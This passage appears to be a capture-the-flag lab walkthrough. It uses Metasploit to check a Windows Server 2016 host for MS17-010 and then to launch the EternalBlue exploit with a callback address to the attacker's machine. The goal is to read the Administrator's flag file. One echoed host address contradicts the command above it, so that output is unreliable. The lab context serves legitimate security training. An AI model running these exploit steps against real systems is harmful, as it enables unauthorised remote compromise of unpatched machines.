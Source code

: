 ```
                xt
   RHOSTS                                       yes       The target host(s), range CIDR identifier, or hosts f
                                                          ile with syntax 'file:<path>'
   RPORT        445                             yes       The SMB service port (TCP)
   SMBDomain    .                               no        The Windows domain to use for authentication
   SMBPass                                      no        The password for the specified username
   SMBUser                                      no        The username to authenticate as
   THREADS      1                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 172.16.1.13

RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 172.16.1.13:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 172.16.1.13:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
{% endcode %}

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let’s set up the exploit and payload now, then give it a shot.

1. Select Exploit & Payload, then Deliver

<figure><img src="https://miro.medium.com/v2/resize:fit:700/0*hinFlDZK2Z7v2ela.png" alt="" height="345" width="700"><figcaption></figcaption></figure>

set all requirements and run

```
set RHOSTS 172.16.1.13
set lhost 172.16.1.5
run
```

Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt

